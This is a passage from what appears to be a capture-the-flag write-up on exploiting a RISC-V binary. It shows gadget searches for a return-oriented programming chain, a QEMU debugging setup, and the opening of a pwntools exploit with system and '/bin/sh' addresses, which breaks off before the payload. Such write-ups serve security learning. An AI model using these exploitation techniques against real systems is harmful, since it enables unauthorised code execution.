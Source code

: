 In detail, the commands do the following:

- `"/ad/ *; *; *; ret"`: search for all the available gadget with length 3
- `"/ad/ *; *; *; ret" | grep 'ld a0'`: get all `a0` gadget
- `"/ad/ *; *; *; ret" | grep 'ld a0' | cut -d',' -f2 | sort -nr | uniq | grep sp`: get all `a0` gadget that loads values from the stack and all their offsets
- `"/ad/ ld a0, 24(sp)*;*;*;ret"`: get the address of a specific gadget

We now know that the address of the `a0` gadget that we need is located at address `0x4a9d2`.

### Debugging

In order to debug the exploit, we can install a Q-EMU based VM in order to emulate a RISC-V system:

```bash
# start a Debian container and spawn a shell
docker run -itp 1234:10000 debian
# install qemu inside the container
apt install qemu-system-riscv64 wget xzdec
# download RISC-V system image
wget https://fedorapeople.org/groups/risc-v/disk-images/stage4-disk.img.xz
# decompress it
xzdec -d stage4-disk.img.xz > stage4-disk.img
# launch the image
qemu-system-riscv64 \
   -nographic \
   -machine virt \
   -smp 4 \
   -m 2G \
   -object rng-random,filename=/dev/urandom,id=rng0 \
   -device virtio-rng-device,rng=rng0 \
   -device virtio-blk-device,drive=hd0 \
   -drive file=stage4-disk.img,format=raw,id=hd0 \
   -device virtio-net-device,netdev=usernet \
   -netdev user,id=usernet,hostfwd=tcp::10000-:22
```

We will be able to login via SSH locally on port 1234 as `root:riscv`.
Here we can install GDB and debug the binary to get the correct offset for the gadget and confirm that we correctly identified the `system(3)` function by putting a breakpoint or stepping after sending the `hack` string that will execute `system("/bin/cat /qemu/arnold")` in order to print the executable to _stdout_.

## Final Exploit

The final exploit is the following:

```python
#!/usr/bin/env python

from time import sleep
from pwn import *

'''
0x0004ddc0 => /bin/sh\x00
0x00015076 => system

0x0004a9cc      6265           ld a0, 24(sp)
0x0004a9ce      a270           ld ra, 40(sp)
0x0004a9d0      4561           addi sp, sp, 48
0x0004a9d2      8280           ret
'''

ADDR = sys.argv[1]
PORT = int(sys.argv[2])

```